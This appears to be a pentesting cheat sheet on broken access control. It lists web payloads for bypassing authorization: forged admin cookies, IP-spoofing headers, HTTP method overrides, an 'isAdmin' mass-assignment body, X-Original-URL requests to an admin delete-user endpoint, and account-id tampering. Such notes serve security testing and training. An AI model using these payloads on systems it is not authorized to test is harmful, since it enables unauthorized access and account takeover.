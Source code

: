```yaml
---
title: Broken Access Control
desc: 
tags: [Access Control, Burp Suite, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change Header Values

1. **Cookie**

    You may be able to get access to the login-required pages.

    ```
    Cookie: admin=true
    Cookie: isAdmin=true
    Cookie: access=1
    Cookie: access=true
    ```

2. **IP Spoofing**

    ```
    Cluster-Client-IP: 127.0.0.1
    Forwarded-For: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Original-URL: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-ProxyUser-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Remote-IP: 127.0.0.1

    Host: 127.0.0.1
    ```

<br />

## 2. Change Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## 3. Change POST Params

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## 4. Add X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## 5. Change Query Parameters

```sh
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```
